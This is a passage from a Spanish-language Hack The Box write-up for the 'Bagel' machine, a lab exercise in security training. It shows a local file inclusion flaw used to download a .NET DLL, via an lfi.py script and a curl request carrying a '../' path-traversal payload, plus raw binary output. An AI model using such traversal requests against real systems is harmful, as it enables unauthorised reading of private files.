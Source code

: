 Bueno si le preguntamos a **ChatGPT** ya nos dice que es para **windows**

![](/assets/images/htb-writeup-bagel/web5.png)

 Bueno si mediante el **LFI** tratamos de ver el archivo si existe pero mejor vamos a descargarlo desde le navegador ya que en el **LFI** desde hay nos descarga los archivos

```bash
❯ python3 lfi.py /opt/bagel/bin/Debug/net6.0/bagel.dll
[▄] Mostrando archivo indicado: Listo
MZ�\x00\x00\x00\x00\x00\xbfÿ\x00¸\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x82\xa
$\x00\x00\x00\x00E\x00L\x03ñ¢S÷\x00\x00\x00\x00à\x00\x000\x00 \x00\x00\x00\x00\x00š>\x00\x00\x00\x00\x00\x00@\x00 \x00\x00\x00\x04\x00\x00\x00\x04\x00\x00\x00\x00\x82\xac\x00\x00\x00\x00\x00\x03`…\x00\x10\x00\x00\x00\x10\x00\x00\x00\x00\x10\x00\x00\x00\x00\x00G>\x00O\x00\x00@\x00\x1c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x0c\x00�=\x00T\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 \x0\x00\x00\x00\x00\x00\x00 \x00H\x00\x00\x00\x00\x00\x00text\x00\x00\xa0\x1e\x00 \x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00 \x00`.rsrc\x00\x00\x05\x00@\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00@\x00@.reloc\x00\x0c\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00@\x00B\x00\x00\x00\x00\x00\x00\x00\x00{>\x00\x00\x00H\x00\x00\x00\x00&\x00x\x17\x00\x00\x00\x00\x06\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00(\x14\x00\x00b(\x14\x00\x00\x17\xbf\
```

![](/assets/images/htb-writeup-bagel/web6.png)

De igual manera puedes hacerlo desde consola usando **curl**

```bash
❯ curl -s 'http://bagel.htb:8000/?page=../../../../../../opt/bagel/bin/Debug/net6.0/bagel.dll' -o bagel.dll
```

Y hay lo tenemos

```bash
❯ file bagel.dll
bagel.dll: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows
```
